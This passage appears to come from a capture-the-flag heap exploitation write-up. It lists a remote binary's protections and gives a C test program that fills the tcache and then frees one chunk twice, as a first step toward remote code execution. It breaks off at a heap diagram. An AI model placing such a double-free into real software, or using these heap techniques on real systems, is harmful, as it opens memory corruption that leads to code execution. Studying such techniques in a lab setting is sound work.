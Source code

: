 So we can immagine the remote binary is compiled as follows:
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

At this point we write some skel in C to inspect the heap, and try to understand what we must do to achieve the RCE, trying to follow the remote execution flow.
```
static void * ptrs[10];

int main(int argc, char *argv[], char *envp[]){
   

  char buff[256];
  void * tmpz;
  int i=0;
  unsigned long l1, l2;

  int SIZE=0x200 - 0x8;

  for(i=0; i<8; i++){
    ptrs[i]=malloc(SIZE);
    memset(ptrs[i], i+0x30, SIZE);
  }

  for(i=6; i>=0; i--){
    free( ptrs[i] );
  }
  // [1]

  free(ptrs[0]); 

  // [2]

  return 0;
}
```

[1] This is the status of the arena:
![heap-1](images/heap-1.png)
